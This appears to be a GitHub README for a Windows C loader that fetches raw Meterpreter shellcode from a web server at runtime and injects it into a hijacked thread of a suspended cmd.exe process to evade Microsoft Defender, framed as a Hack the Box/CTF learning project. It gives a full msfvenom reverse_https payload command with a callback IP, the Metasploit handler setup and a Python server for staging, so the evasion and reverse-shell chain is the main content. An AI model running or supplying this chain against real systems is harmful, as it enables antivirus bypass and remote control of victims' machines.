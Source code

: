 # 🎯 Meterpreter Payload Exectuion ~ CTF 

A lightweight Windows C application developed using **Visual Studio**. This project aims to execute a Meterpreter payload with Defender enabled. The purpose is to use this exe on harder Hack the Box machines. This approach helps bypass Defender, although some Meterpreter functionalities may still be flagged. This solution results from work done after following **MALDEV Academy** — a fantastic course that helped me reach this level.

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fetches the shell code at runtime and will avoid some common signatures by not storing the shell code on disk.
- I then create a suspended process, "cmd.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time and then call back with a Meterpreter payload on a different port. The steps below are for setup.


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for your local machine that is hosting Metasploit
```

2. Open Metasploit


 ```bash
# In a different terminal setup Metasploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# In the same directory as the payload and a different terminal as Metasploit, run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](./Images/image.png)


### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for your Kali machine. Make sure the port used hosts the Python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target
![alt text](./Images/image-1.png)

- A callback,, then a Meterpreter shell
![alt text](./Images/image-2.png)

## 📚 Credits

- **MALDEV Academy** — [maldevacademy.com](https://maldevacademy.com)  
  A fantastic resource for learning malware development techniques.
  
- **Offensive Security Community** — [offensive-security.com](https://www.offensive-security.com)  
  The community behind Kali Linux and other offensive security tools.

- **Metasploit** — [metasploit.com](https://www.metasploit.com)  
  A powerful framework for developing and executing exploit code against remote target machines.


---
